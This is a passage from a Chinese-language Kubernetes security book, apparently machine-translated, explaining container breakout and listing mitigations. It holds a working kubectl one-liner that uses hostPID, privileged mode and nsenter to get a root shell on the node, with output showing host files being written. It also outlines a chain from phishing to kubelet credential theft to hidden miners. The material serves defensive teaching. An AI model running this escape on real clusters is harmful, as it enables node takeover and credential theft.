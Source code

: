“tarball”是由`tar` Unix 命令创建的文件。也可以压缩。

另一方面，虚拟机有自己的虚拟磁盘来存储整个操作系统。虽然有一些非常轻量级的虚拟机技术，但虚拟机和容器之间的大小通常有一个数量级的差异。

虽然有些人将容器称为轻量级虚拟机，但这与事实相去甚远。它们不是以同样的方式隔离的，需要更多地关注它们如何在节点上运行的细节。

从这一节，你可能会认为我们试图说容器是不安全的。没有比这更偏离事实的了。保护 Kubernetes 集群及其上运行的容器，需要注意细节并了解容器与虚拟机的区别。由于许多人确实了解虚拟机，因此很容易尝试将它们与容器进行比较，但这样做会使您处于劣势，因为它们是非常不同的技术。

一旦您了解了默认配置的局限性以及由此带来的潜在危险，您就可以修复这些“问题”

## 集装箱突破

容器突破是指容器的进程访问底层节点。一旦到达该节点，攻击者现在就可以访问您的环境中该节点拥有的所有其他 pods 和任何功能。爆发也可能是将本地文件系统装入容器的问题。来自[https://securekubernetes.com](https://securekubernetes.com)的一个例子，最初是由来自 VMware 的 Duffie Cooley 指出的，它使用一个容器来挂载本地文件系统。在一个 KinD 集群上运行这个命令会打开对节点文件系统的读取和写入:

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
If you don't see a command prompt, try pressing Enter.
```

前面代码中的`run`命令启动了一个容器，该容器添加了一个对该示例至关重要的选项`hostPID: true`，该选项允许容器共享主机的进程命名空间。您可能会看到一些其他选项，例如`–mount`和将`privileged`设置为`true`的安全上下文设置。所有选项的组合将允许我们写入主机的文件系统。

现在您已经在容器中了，执行`ls`命令查看文件系统。注意提示是怎样的`root@r00t:/#`，确认你在容器中而不是在主机上:

```
root@r00t:/# ls
bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

为了证明我们已经将主机的文件系统映射到我们的容器，创建一个名为`this is from a container`的文件并退出容器:

```
root@r00t:/# touch this_is_from_a_container
root@r00t:/# exit
```

最后，让我们看看主机的文件系统，看看容器是否创建了该文件。由于我们使用单个工作节点运行 KinD，因此我们需要使用 Docker 将`exec`插入到工作节点中。如果您正在使用书中的 KinD 集群，工作节点被称为`cluster01-worker`:

```
docker exec -ti cluster01-worker ls /
bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  this_is_from_a_container  tmp  usr  var
```

就在那里！在本例中，运行了一个装载本地文件系统的容器。从吊舱内部，创建了`this_is_from_a_container`文件。在退出 pod 并进入节点容器后，文件就在那里了。一旦攻击者可以访问节点的文件系统，他们也可以访问 kubelet 的凭证，这可以打开整个集群。

不难想象一系列事件会导致比特币矿工(或者更糟)在集群上运行。网络钓鱼攻击获取开发人员用于其群集的凭据。即使这些凭据只能访问一个名称空间，也会创建一个容器来获取 kubelet 的凭据，然后从那里启动容器，在整个环境中秘密部署矿工。肯定有多种缓解措施可用于防止此攻击，包括以下措施:

*   多因素身份验证，可以防止网络钓鱼凭据被使用
*   仅预授权某些容器
*   一个 PSP，通过阻止一个容器运行来阻止这次攻击`privileged`
*   适当保护的基本图像
